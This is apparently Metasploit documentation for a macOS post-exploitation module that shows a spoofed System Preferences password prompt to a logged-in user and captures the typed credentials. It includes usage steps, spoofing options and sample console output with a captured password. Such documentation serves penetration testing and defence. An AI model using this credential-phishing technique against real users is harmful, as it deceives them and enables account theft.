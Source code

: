 ## Vulnerable Application

Presents a password prompt dialog to a logged-in OSX user.  Depending on the version of OSX, additional steps may be necessary to
allow permission for the prompt to be displayed.  See Scenarios for additional details.

## Verification Steps

  1. Start msfconsole
  2. Get a shell, user level is fine.
  3. Do: ```use post/osx/gather/password_prompt_spoof```
  4. Do: ```set session #```
  5. Do: ```run```
  6. The user will be prompted to enter their password, or complete additional steps.

## Options

   **BUNDLEPATH**
   Path to bundle containing icon.  Default is `/System/Library/CoreServices/CoreTypes.bundle`.

   **ICONFILE**
   Icon filename relative to bundle.  Default is `UserUnknownIcon.icns`

   **TEXTCREDS**
   Text displayed when asking for a password. Default is `Type your password to allow System Preferences to make changes`.

   **TIMEOUT**
   Timeout for user to enter credentails.  Default is `60`.  Newer versions of OSX may require additional time due to user interaction.

## Scenarios

### User level shell on OSX 10.14.4

If the user does not complete the prompt in time, or does not enable permissions to receive the prompt:

```
msf5 post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Timeout period expired before credentials were entered!
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.SGFvISFemjti
[*] Post module execution completed
```

If the user DOES complete the prompt in time:

```
msf5 post(osx/gather/password_prompt_spoof) > run

[*] Running module against MacBook-Pro.nogroup
[*] Waiting for user 'h00die' to enter credentials...
[*] Password entered! What a nice compliant user...
[+] password file contents: 20190415_122536:h00die:alfalfasprouts!
[+] Password data stored as loot in: /loot/20190415122537_default_192.168.2.225_password_355107.txt
[*] Cleaning up files in MacBook-Pro.nogroup:/tmp/.jJATztdro
[*] Post module execution completed
```

#### User Experience

The following screen shots are from OSX 10.14.4 from a `ssh_login` shell as the user.  Executable may change depending on the shell type and user permissions.

The user is first prompts for additional permissions (System Events):

<img width="423" alt="Screen Shot 2019-04-15 at 12 19 38 PM" src="https://user-images.githubusercontent.com/752491/56173728-ead79c80-5fbc-11e9-8a8f-3b3265220c95.png"/>

Next, the user is prompted to allow Accessibility Access (Events):

<img width="463" alt="Screen Shot 2019-04-15 at 12 20 08 PM" src="https://user-images.githubusercontent.com/752491/56173737-f4f99b00-5fbc-11e9-9dcc-efbfe0cd08eb.png"/>

Clicking Open System Preferences shows the executable asking for the permissions.  The screenshot was taken after clicking the lock in the bottom left corner,
and checking `sshd-keygen-wrapper`:

<img width="670" alt="Screen Shot 2019-04-15 at 12 24 27 PM" src="https://user-images.githubusercontent.com/752491/56173742-fa56e580-5fbc-11e9-8d28-5669e9e9448f.png"/>

Finally, if done within the `TIMEOUT` (or with all required permissions):

<img width="424" alt="Screen Shot 2019-04-15 at 12 25 25 PM" src="https://user-images.githubusercontent.com/752491/56173748-fe830300-5fbc-11e9-9564-0e7137b051a8.png"/>

